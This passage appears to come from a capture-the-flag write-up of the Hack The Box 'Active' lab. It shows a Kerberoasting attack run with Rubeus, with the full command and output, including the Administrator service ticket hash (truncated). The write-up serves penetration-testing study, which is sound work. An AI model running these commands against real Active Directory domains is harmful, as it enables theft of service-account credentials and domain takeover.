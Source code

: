 **As shown above, we don't need the `/tgtdeleg` or the `/rc4opsec` switches** because we're not targeting specific TGT delegations or looking for RC4 hashes explicitly. Instead, we're keeping it simple and efficient by focusing on what `Rubeus` reveals:

```
-------------------------------------
| Supported Encryption Type | Count |
-------------------------------------
| RC4_HMAC_DEFAULT          | 1     |
-------------------------------------
```

With this output, we know there's only one account using the RC4 encryption type — a prime target for Kerberoasting! By skipping the extra flags, we streamline the process, making our attack quicker and more straightforward. Just the way we like it: minimal ingredients, maximum flavor!


```
C:\Users> .\Rubeus.exe kerberoast /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.1


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : active.htb        
[*] Searching path 'LDAP://DC.active.htb/DC=active,DC=htb' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))
'                                                                                                                                                                                             

[*] Total kerberoastable users : 1


[*] SamAccountName         : Administrator                                                     
[*] DistinguishedName      : CN=Administrator,CN=Users,DC=active,DC=htb                        
[*] ServicePrincipalName   : active/CIFS:445                                                   
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec                                                                                                                     [*] PwdLastSet             : 18/7/2018 10:06:40 ��

[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*Administrator$active.htb$active/CIFS:445@active.htb*$F5--SNIP--
```
